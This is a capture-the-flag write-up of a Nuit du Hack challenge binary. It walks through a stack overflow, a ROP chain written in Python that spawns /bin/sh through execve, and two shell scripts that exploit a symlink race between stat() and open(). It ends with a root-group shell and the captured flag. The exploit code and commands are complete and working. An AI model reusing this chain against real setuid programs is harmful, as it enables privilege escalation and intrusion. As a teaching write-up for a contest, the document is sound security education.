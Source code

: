
Hi,

I'm member of Pwnium tunisian CTF team. We were ranked #31 in this CTF ! 
Nice rank for a team of 2 members right ?

I hope we will do better next CTF ;)

The binary file takes a filename as argument and checks if the file size is less than 4096 then dumps its content to a buffer otherwise the program prints an error message.

Using GDB let's try to let the program accept a big filesize. To do this I changed the value returned by the check_size function to 1.

```bash
(python -c 'print "A"*4200') > /tmp/big
gdb pwn
gdb-peda$ b *0x08048F1A
gdb-peda$ r /tmp/big
gdb-peda$ set $eax=1
gdb-peda$ c
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ i r eip
eip 0x41414141 0x41414141
```

Great we have a segmentation fault. 4128 bytes is enough to overflow the return address.

The stack is not executable.

```bash
gdb-peda$ vmmap stack
Start      End        Perm Name
0xfffdd000 0xffffe000 rw-p [stack]
```

  
The system and execve does not exist in the binary so we can't do a big thing with Ret2libc.

```bash
readelf -s pwn | grep system
   702: 080d76e0    36 OBJECT  LOCAL  DEFAULT   10 system_dirs
   703: 080d76cc    16 OBJECT  LOCAL  DEFAULT   10 system_dirs_len
readelf -s pwn | grep exec
   890: 080bc800  2311 FUNC    LOCAL  DEFAULT    6 execute_cfa_program
   894: 080bd940  1884 FUNC    LOCAL  DEFAULT    6 execute_stack_op
  1186: 0809e580    88 FUNC    GLOBAL DEFAULT    6 _dl_make_stack_executable
  2209: 080ee9f4     4 OBJECT  GLOBAL DEFAULT   24 _dl_make_stack_executable
```

_dl_make_stack_executable is an interesting function and can be used to mark the stack as executable but I will do the job simpler.

Time for ROP ;)

The binary is statically linked with libc so there is a big probability to hit with a ROP chain to call execv syscall. I used ROPgadget to generate a rop chain. By testing it I got SIGSEGV at 0x00000000 and this because the gadgets contain NULL byte.

xor eax, eax; ret gadgets are located in offssets having NULL bytes. For this reason I had to manually resolve this issue. To go further I replaced xor eax eax; ret gadget with the following 2 gadgets mov eax, 0xffffffff; ret; inc eax; ret this will overflow the EAX register and the value will be 0.

  
The final ropchain I made was the following:


```python
from struct import pack

# Padding goes here
p = "A"*4124

p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x080beb26) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee064) # @ .data + 4
p += pack('<I', 0x080beb26) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
#p += pack('<I', 0x08054700) # xor eax, eax ; ret  -> Issue here

p += pack('<I', 0x0804fc64)
p += pack('<I', 0x0807f15f)

p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481d1) # pop ebx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x08072731) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080ee060) # padding without overwrite ebx
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
#p += pack('<I', 0x08054700) # xor eax, eax ; ret -> Issue here

p += pack('<I', 0x0804fc64)
p += pack('<I', 0x0807f15f)

p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x08049501) # int 0x80
p += pack('<I', 0xdeadbeef) # deadbeef

f = open('/tmp/payload','wb')
f.write(p)
f.close()
```

Now how to let the program accept the created payload ? The program uses the stat() function to read the file size. This let me think in Race Condition. The idea is to provide a symlink to a small file at the begining and then after the program executes the stat() fucntion and before executing the open() function I point the symlink to the payload (big file). To do this I used the following 2 scripts:

  
race1.sh file

```bash
#!/bin/sh
for i in `seq 10000`
do
cp /tmp/small /tmp/flag
rm /tmp/flag
ln -s /tmp/payload /tmp/flag
rm /tmp/a
done
```

race2.sh file

```bash
#!/bin/sh
for i in `seq 10000`
do
/home/chall/pwn /tmp/flag
done
```

Copy all the necessary files to the server using SCP.

```bash
scp  -P 55552 /tmp/payload chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/race1.sh chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/race2.sh chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/small chall@securefilereader.quals.nuitduhack.com:/tmp

```

Put all stuffs togther

```
cd /tmp
(sh race1.sh &) && sh race2.sh
```


And after few seconds you get a shell for you and your family for free :D

  

```bash
$ id
uid=1001(chall) gid=1001(chall) egid=1000(chall_pwned) groups=1000(chall_pwned),1001(chall)
$ cat /home/chall/flag
rUN!RuN$RUn!Y0U$W1N_TH3_R4c3
$
```

That's all !
